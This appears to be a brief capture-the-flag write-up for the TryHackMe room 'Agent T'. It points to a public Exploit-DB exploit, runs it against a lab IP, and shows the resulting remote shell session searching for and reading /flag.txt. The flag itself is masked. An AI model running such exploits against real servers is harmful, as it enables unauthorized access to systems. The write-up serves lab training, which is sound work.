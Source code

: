 ## Agent T
https://tryhackme.com/room/agentt

## Flag

![image](https://user-images.githubusercontent.com/6504854/194846964-8570a2d4-7619-4442-9b1d-b661624c765d.png)

HINT:Look closely at the HTTP headers when you request the first page...

https://www.exploit-db.com/exploits/49933

Copy+Paste as exploit.py

```
chmod +x exploit.py
python exploit.py
Enter the full host url:
http://10.10.37.138/

Interactive shell is opened on http://10.10.37.138/ 
Can't acces tty; job crontol turned off.

$ ls -la
total 760
drwxr-xr-x 1 root root   4096 Mar  7  2022 .
drwxr-xr-x 1 root root   4096 Mar 30  2021 ..
-rw-rw-r-- 1 root root    199 Mar  5  2022 .travis.yml
-rw-rw-r-- 1 root root  22113 Mar  5  2022 404.html
-rw-rw-r-- 1 root root  21756 Mar  5  2022 blank.html
drwxrwxr-x 2 root root   4096 Mar  5  2022 css
-rw-rw-r-- 1 root root   3784 Mar  5  2022 gulpfile.js
drwxrwxr-x 2 root root   4096 Mar  5  2022 img
-rw-rw-r-- 1 root root  42145 Mar  7  2022 index.php
drwxrwxr-x 3 root root   4096 Mar  5  2022 js
-rw-rw-r-- 1 root root 642222 Mar  5  2022 package-lock.json
-rw-rw-r-- 1 root root   1493 Mar  5  2022 package.json
drwxrwxr-x 4 root root   4096 Mar  5  2022 scss
drwxrwxr-x 8 root root   4096 Mar  5  2022 vendor

$ find / -type f -name *flag* 2>/dev/null
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/local/lib/php/build/ax_check_compile_flag.m4
/var/www/html/vendor/fontawesome-free/svgs/brands/font-awesome-flag.svg
/var/www/html/vendor/fontawesome-free/svgs/regular/flag.svg
/var/www/html/vendor/fontawesome-free/svgs/solid/flag-usa.svg
/var/www/html/vendor/fontawesome-free/svgs/solid/flag-checkered.svg
/var/www/html/vendor/fontawesome-free/svgs/solid/flag.svg
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/flag.txt

$ cat /flag.txt                   
flag{41******************************b}
$ 
```
😄😄😄
